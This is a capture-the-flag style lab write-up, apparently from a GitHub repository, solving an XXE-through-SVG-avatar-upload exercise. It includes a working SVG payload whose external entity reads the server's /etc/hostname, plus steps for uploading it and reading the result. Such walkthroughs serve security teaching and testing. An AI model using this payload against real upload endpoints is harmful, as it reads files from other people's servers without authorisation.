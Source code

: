 # Lab: Exploiting XXE via image file upload

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/ef60f755-d4c3-459b-a452-ee166070cfe3)

## Solution

Create a local SVG image with the following content:

```XML
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/3e02627c-f89c-474a-bdc3-2ce4efcfa960)

Post a comment under any post and choose the malicious svg as the avatar.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/c7dcfd64-a790-4957-8c8d-bf175327905c)

Go to the posted comment and open the avatar image in a new tab.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/c2fe2ef3-06ab-470d-81c4-2cba69eb7f88)

The avatar image should contain the hostname.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/9adb2177-32d4-46d9-84ee-82ee1e80fa9b)

Enter the hostname in the **"Submit Solution"** section.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/38c841ef-a175-4473-ac1d-4a8bce8cf6ec)

Submitting the correct hostname solves the lab.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/7e61b930-4bb9-4e2c-aac6-56c91b697c9c)
